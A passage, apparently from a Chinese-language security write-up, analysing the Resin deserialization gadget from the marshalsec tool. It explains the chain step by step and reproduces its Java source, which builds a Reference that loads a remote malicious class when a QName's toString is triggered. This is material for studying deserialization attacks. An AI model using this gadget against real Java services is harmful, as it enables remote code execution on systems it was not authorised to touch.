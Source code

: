 <div align=center><img src="./images/6.png"></div>

## Resin
### 构造分析
 - 先来看看`marshalsec`中给出的`Resin.java`, 先反射调用`javax.naming.spi.ContinuationDirContext`, 接着实例化该对象, 分别传入`CannotProceedException`和`Hashtable`. 接着创建一个`CannotProceedException`对象, 设置其`cause`、`stackTrace`均为`null`. 接着创建一个`Reference`对象, 并获取远程的恶意类. 最后调用`UtilFactory#makeToStringTriggerStable`方法.

```java
public interface Resin extends Gadget {

    @Args ( minArgs = 2, args = {
        "codebase", "class"
    }, defaultArgs = {
        MarshallerBase.defaultCodebase, MarshallerBase.defaultCodebaseClass
    } )
    default Object makeResinQName ( UtilFactory uf, String[] args ) throws Exception {

        Class<?> ccCl = Class.forName("javax.naming.spi.ContinuationDirContext"); //$NON-NLS-1$
        Constructor<?> ccCons = ccCl.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ccCons.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();
        Reflections.setFieldValue(cpe, "cause", null);
        Reflections.setFieldValue(cpe, "stackTrace", null);

        cpe.setResolvedObj(new Reference("Foo", args[ 1 ], args[ 0 ]));

        Reflections.setFieldValue(cpe, "suppressedExceptions", null);
        DirContext ctx = (DirContext) ccCons.newInstance(cpe, new Hashtable<>());
        QName qName = new QName(ctx, "foo", "bar");
        return uf.makeToStringTriggerStable(qName);
    }
}
```

